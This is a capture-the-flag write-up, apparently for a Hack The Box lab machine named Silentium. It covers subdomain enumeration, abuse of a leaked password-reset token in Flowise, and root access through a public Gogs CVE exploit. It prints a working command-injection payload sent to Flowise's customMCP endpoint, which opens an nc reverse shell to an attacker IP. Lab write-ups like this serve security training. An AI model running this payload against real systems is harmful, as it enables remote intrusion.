








# Silentium

## Enumeration

A network scan revealed only ports 22 and 80 open:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://silentium.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A directory brute force did not return useful results, so I enumerated subdomains using `ffuf`:

```bash
ffuf -u http://silentium.htb/ \
-H "Host: FUZZ.silentium.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fc 301
```

This process identified the `staging` subdomain.

## Initial Access

The application on `staging.silentium.htb` was identified as `Flowise`.

Initial testing revealed inconsistent error handling in the authentication flow. An invalid email returned a distinct “user not found” message:



A valid email returned a different response:



I attempted credential brute forcing without success. I then inspected the forgot password workflow and discovered the server returned a `tempToken` parameter in the password-reset request. This token could be used directly to change the password without knowing the registered email address.

The following screenshots show obtaining the `tempToken` and using it to reset the account password:





Using this account access, I executed a remote command injection through the custom MCP endpoint.

```bash
curl -X POST http://staging.silentium.htb/api/v1/node-load-method/customMCP \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer TOKEN" \
  --data-binary @- <<'EOF'
{
  "loadMethod": "listActions",
  "inputs": {
    "mcpServerConfig": "({x:(function(){const cp=process.mainModule.require(\"child_process\");cp.exec(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.237 4444 >/tmp/f\");return 1;})()})"
  }
}
EOF
```

The Bearer token was obtained from the Flowise API Keys section.

The following screenshot confirms successful remote code execution:



From the shell, I discovered an environment variable containing credentials that allowed SSH access to user `ben`:



## Privilege Escalation

After obtaining user access, I enumerated local services and found `Gogs` running on `localhost:3001`.

I established a local SSH tunnel to reach the service from my browser:

```bash
ssh -L 3001:127.0.0.1:3001 ben@10.129.15.99
```

The Gogs instance was running as root and was version `0.13.3`, which is known to be vulnerable.



I leveraged the public exploit for CVE-2025-8110 from: [https://github.com/3jee/CVE-2025-8110](https://github.com/3jee/CVE-2025-8110)

The following screenshot demonstrates root access after exploiting the vulnerable Gogs service. The `-u` and `-p` options correspond to a user created through the web interface on `http://localhost:3001`.


